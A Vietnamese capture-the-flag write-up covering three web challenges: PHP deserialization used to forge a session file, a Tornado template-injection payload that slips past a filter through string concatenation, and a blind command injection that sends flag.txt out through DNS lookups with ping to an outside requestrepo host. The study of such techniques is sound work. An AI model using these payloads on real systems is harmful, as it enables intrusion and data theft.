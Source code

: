 # LUCKY BOIZ

## PHÂN TÍCH

Đây là một bài về lỗi php deserialize.

``` 
if(isset($_SESSION["user"])){
    if($_SESSION["user"]==="santa_claus ")  echo "".$flag;
}
```
Ta thấy để có flag thì $_SESSION["user"] phải bằng với "santa_claus "

Bài này nó cho phép ta gửi 1 tham số là ser trong get request sau đó deserialize giá trị này.
```
if (isset($_GET['ser'])) unserialize($_GET['ser']);
```
Đây là class secret mà để cho , giờ ta tìm cách để sau khi unserialize ta có $_SESSION["user"] = "santa_claus "

![](images/2021-12-25-06-55-04.png)

```
   __toString sẽ được gọi khi object được xử lí như một string 

   __destruct sẽ được gọi khi một object bị huỷ đi or không còn đƯợc sử dụng 

   Tham khảo: https://www.php.net/manual/en/language.oop5.magic.php

```
Và mục tiêu của ta là ghi vào file /tmp/sess_PHPSESSIONID vì file này lưu những giá trị của biến $_SESSION (mỗi user sẽ có một cái khác nhau) và thay đổi nó thành giá trị "santa_claus ". Và định dạng được lưu trong file này là dạng serialize

Vd: nếu $_SESSION["user"] = "d47" thì nội dung của file sẽ là: `user|s:3:'d47';`


## KHAI THÁC

```
<?php
class secret {
}

$s = new secret();
$s->yoursecret = $s; // Để trigger hàm __toString nó sẽ trả về kết quả là $secret1 sẽ bằng $secret
$s->descript = "user|s:12:'santa_claus ';"; // Nội dung của file sesion mà ta muốn ghi
$s->filename = "sess_eabe6fc0553da759da5383b2d5d24e9d"; // Tên file sẽ được ghi vào

var_dump(serialize($s)); 
```
` FLAG: ChristCTF{Nô-en-Zui-zẻ-nhe!,Mấy-bạn-có-gấu-chưa-chứ-tui-có-gấu-rồi-đó} flag gây tổn thương sâu sắc đến ae đang chơi :((`

# Mini Con cu lay tờ 

## PHÂN TÍCH

Đề cho ta một cái ô input và ta sẽ nhập giá trị và sau đó sẽ tính toán kết quả trả về, sau một hồi fuzz thì mình thấy nó dính SSTI, mà phía backend đang code bằng python . Lúc đầu mình bị mắc chỗ này lâu vc, vì nghĩ là nó đang sài template là jinja2, nhưng méo phải nó đang sài tornado

Vậy giờ kiếm payload của thằng này để lấy flag thôi.

## KHAI THÁC

` PAYLOAD: eval('__import__("subpr"+"ocess").getoutput("ls")')` do đề filter chữ subprocess nên ta cộng chuỗi ở đấy để bypass

![](images/2021-12-25-07-10-56.png)

` FLAG: ChristCTF{M1N1_G1FT_4_XMA5} `

# CaptureME

## PHÂN TÍCH

Bài này chỉ có endpoint duy nhất nên ta chỉ cần tập trung vào mình nó.

![](images/2021-12-25-07-17-32.png)



Mình thấy cái hàm `inetChecksite` này khá lạ và nó thuộc package `systeminformation`, kiểm tra version của nó trong file `package.json`, sau đó gu gồ , thì thấy thằng này có dính lỗi `command injection`. Nhưng trong bài này là dạng `blind commnad injection` vì output sẽ không được trả ra.


Tới đây mình nghĩ sẽ tạo một reverse-shell, nhưng đều failed vì trên phía server đã chặn hết các giao thức. Ban đầu mình sử dụng curl để gửi request đến server của mình thì ok, nhưng sau đó dùng curl để upload file `flag.txt` thì đã bị chặn or filter.
Sau một hồi fuzzing thì mình tìm đến `DNS`, vì hầu như ứng dụng web nào cũng đều hỗ trợ giao thức `DNS`. 


Nhưng mà loay hoay một hồi mình sài lệnh nslookup, dig, host, blabla nó vẫn ko work. Cuối cùng sài lệnh `ping` thì lại oke .
## EXPLOIT

` PAYLOAD: http://45.119.84.224:4000/CaptureSite?url[]=$(ping%20`cat%20flag.txt`.ekiajtf3.requestrepo.com)`

` FLAG: ChristCTF{R3v3r53_5h3ll_i5_v3ry_345y_5738246dhcbw}`

### Cuối cùng xin cảm ơn câu lạc bộ ATTT của đại học PTIT đã tạo ra sân chơi hữu ích vào đúng dịp Noel, để ae ko có gấu vào chơi cho đỡ buổn.